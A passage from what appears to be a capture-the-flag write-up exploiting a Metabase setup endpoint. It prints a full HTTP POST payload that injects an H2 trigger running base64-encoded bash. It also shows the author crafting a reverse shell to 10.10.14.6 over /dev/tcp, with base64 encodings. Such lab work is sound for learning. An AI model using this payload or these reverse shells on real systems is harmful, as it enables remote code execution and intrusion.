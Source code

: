 #### Generate Payload

The blog post uses this HTTP POST request to exploit:

```
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}

```

I’ll need to update the `token`. There’s a command in the `db` key that is running `bash -c` with an `echo` of some base64-encoded data into `base64 -d` and then into `bash -i` (it’s using [brace expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html) to replace spaces).

I’ll create a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in the same format:

```
oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==

```

It’s not strictly required, but I don’t love the special characters, so I’ll add some spaces to the command string until they are gone:

```
oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```
